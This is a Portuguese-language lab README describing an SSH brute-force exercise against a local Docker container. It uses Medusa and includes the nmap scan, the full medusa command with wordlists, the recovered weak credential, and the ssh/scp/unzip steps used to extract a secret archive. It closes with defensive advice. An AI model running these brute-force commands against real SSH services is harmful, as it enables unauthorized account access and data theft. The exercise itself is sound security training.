 🚀 Desafio Medusa Brute Force

Este laboratório demonstra o uso da ferramenta Medusa para realizar testes de força bruta em um serviço SSH exposto em ambiente controlado (container Docker).
O objetivo é evidenciar como credenciais fracas podem ser exploradas, bem como a importância de utilizar senhas fortes e configurar serviços de forma segura.

📂 Estrutura do Projeto

1 - ambiente_controlado.png → topologia/visão do ambiente de teste

2 - arquivos.png → arquivos criados para o desafio (users.txt, password.txt, secret.txt)

3 - bruteforce.png → evidência da execução do ataque com Medusa

4 - arquivos_extraidos.png → evidência de acesso e extração dos arquivos após a descoberta da senha

users.txt → lista de usuários utilizados no teste

password.txt → lista de senhas utilizadas no teste

secret.txt → arquivo protegido armazenado no container alvo

🛠️ Ambiente

Sistema base: Kali Linux

Ferramenta de ataque: Medusa v2.3

Serviço alvo: SSH exposto em container Docker (porta 2222 → 22 interno)

Usuário vulnerável: ctf

Senha descoberta: ctf12345

⚡ Execução do Ataque

Verificação de portas abertas

nmap -sV -p 2222 127.0.0.1


Força bruta com Medusa

medusa -h 127.0.0.1 -n 2222 -U users.txt -P passwords.txt -M ssh -t 10 -f -O medusa_local.log


✅ Resultado:

ACCOUNT FOUND: [ssh] Host: 127.0.0.1 User: ctf Password: ctf12345 [SUCCESS]


Acesso ao container

ssh -p 2222 ctf@127.0.0.1


Extração do arquivo secreto

scp -P 2222 ctf@127.0.0.1:/home/ctf/archive.zip .
unzip -P toor archive.zip

📸 Evidências

As imagens numeradas (1 - ...png até 4 - ...png) mostram as etapas:

Ambiente controlado

Arquivos preparados

Ataque de força bruta

Arquivos extraídos com sucesso

🔒 Conclusão

Este exercício comprova que:

Serviços com credenciais fracas são facilmente exploráveis com ferramentas automatizadas.

Adoção de senhas fortes e controles adicionais de segurança (como fail2ban, MFA e segmentação de rede) são fundamentais para reduzir riscos.
